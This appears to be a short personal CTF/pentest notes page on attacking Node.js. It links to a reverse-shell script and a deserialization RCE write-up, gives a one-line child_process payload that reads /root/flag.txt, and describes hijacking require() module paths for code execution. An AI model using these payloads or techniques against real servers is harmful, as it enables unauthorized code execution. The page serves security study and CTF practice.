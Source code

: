 # NodeJS
Is a [[Useful_Javascript]] framework, or web technology.


[READ](https://github.com/ajinabraham/Node.Js-Security-Course)

## Shell
[Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

## Deserialization

[deserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## Globals
```javascript
__dirname
__filename
exports
module
require()
```


## Node.js Payload
```javascript
"return process.mainModule.require('child_process').execSync('cat
/root/flag.txt');"
```

## Vulnerable Require() 

Because [Node.js](https://nodejs.org/en/knowledge/getting-started/what-is-require/) `require()` allows for relative paths for module cache  if filesystem control is in your favour hijack the path `badVersionOfCalledModule` module and force that on any called functions from theat module to provide *"blazely fast"* \*cough\* code execution. 
[Freecode camp Node.js Require() ](https://www.freecodecamp.org/news/requiring-modules-in-node-js-everything-you-need-to-know-e7fbd119be8/)
[Honeybadger.io - Node.js Cache](https://www.honeybadger.io/blog/nodejs-caching/)

Get all the local paths of modules
```bash
node 
> module.paths
```

